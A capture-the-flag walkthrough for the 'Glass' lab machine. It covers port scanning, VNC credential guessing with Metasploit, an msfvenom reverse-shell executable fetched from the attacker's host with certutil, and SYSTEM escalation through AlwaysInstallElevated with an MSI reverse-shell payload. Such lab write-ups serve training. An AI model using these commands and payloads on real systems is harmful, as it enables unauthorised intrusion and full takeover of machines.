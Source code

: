 ```yaml
---
description: https://www.cyberseclabs.co.uk/labs/info/Glass/
---
```


# Glass

![](<../../../.gitbook/assets/image (624).png>)

## Nmap

```
sudo nmap 172.31.1.25 -p- -sS -sC

PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
| rdp-ntlm-info: 
|   Target_Name: GLASS
|   NetBIOS_Domain_Name: GLASS
|   NetBIOS_Computer_Name: GLASS
|   DNS_Domain_Name: Glass
|   DNS_Computer_Name: Glass
|   Product_Version: 10.0.17763
|_  System_Time: 2020-12-21T18:33:17+00:00
| ssl-cert: Subject: commonName=Glass
| Not valid before: 2020-07-22T18:19:53
|_Not valid after:  2021-01-21T18:19:53
|_ssl-date: 2020-12-21T18:33:17+00:00; 0s from scanner time.
5800/tcp  open  vnc-http
|_http-title: TightVNC desktop [glass]
5900/tcp  open  vnc
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|     VNC Authentication (2)
|     Tight (16)
|   Tight auth subtypes: 
|_    STDV VNCAUTH_ (2)
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49675/tcp open  unknown                                                                                                                                                                                                                    
49676/tcp open  unknown                                                                                                                                                                                                                    
```

## SMB

As per standard we can start with a quick null authentication check with SMB. However, we receive no access.

![](<../../../.gitbook/assets/image (625).png>)

## VNC

Looking at ports 5800 and 5900 we do have VNC running. `metasploit` has a login scanner module that we can use to enumerate VNC logins `auxiliary/scanner/vnc/vnc_login`

Set the RHOSTS and RPORT settings and then run with default settings.

![](<../../../.gitbook/assets/image (626).png>)

`metasploit` picks up a login of \<blank>:password. Kali comes prei-nstalled with a tool called `vncviewer` which we can use to try and log into the remote machine with.

## Initial Foothold

When running the `vncviewer` command on Kali you will be prompted for server IP and password. After entering these you should be presented with the screen below.

![](<../../../.gitbook/assets/image (627).png>)

I will now create a reverse shell and then host it on a `Python SimpleHTTPServer` and download it to the victim machine with `certutil.exe`

First in Kali we create a reverse shell executable with `msfvenom`.

```
msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=4455 -f exe -o <Destination>
```

We can then move to the directory location of the payload we just created and host a Python HTTP server.

```
sudo python2 -m SimpleHTTPServer 80
```

We can now open a `netcat` listener on our attacking machine specifying the listening port as the one we defined in the `msfvenom` payload.

```
nc -lvp 4455
```

On the attacking machine we can open `cmd.exe` and then use `certutil.exe` to download the payload we created.

```
cmd.exe /c certutil.exe -f -urlcache -split http://10.10.0.176/connect.exe
```

When ready invoke the payload.

![](<../../../.gitbook/assets/image (628).png>)

We now get a shell on our attacking machine.

![](<../../../.gitbook/assets/image (629).png>)

## Privilege Escalation

A quick check on our groups and privileges shows we do not belong to any interesting groups or have any interesting permissions.

![](<../../../.gitbook/assets/image (630).png>)

The `systeminfo` command shows we are running on Windows Server 2019.

![](<../../../.gitbook/assets/image (631).png>)

We can upload winPEAS.exe to the server to further help us with the privilege escalation stage of our attack.

winPEAS soon picks up AlwaysInstallElevated being set to 1 which means true.

![](<../../../.gitbook/assets/image (632).png>)

When AlwaysInstallElevated is set to 1 MSI files that are invoked will run with SYSTEM permissions. We can use `msfvenom` to create a reverse shell MSI payload which we can then run on the system.

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=4466 -f msi -o <Destination>
```

We can then start another `netcat` listener on our attacking machine and again download the payload to the victim server with `certutil.exe`

![](<../../../.gitbook/assets/image (633) (1).png>)

Our `netcat` listener then picks up a shell and we confirm we are running as SYSTEM.

![](<../../../.gitbook/assets/image (635).png>)

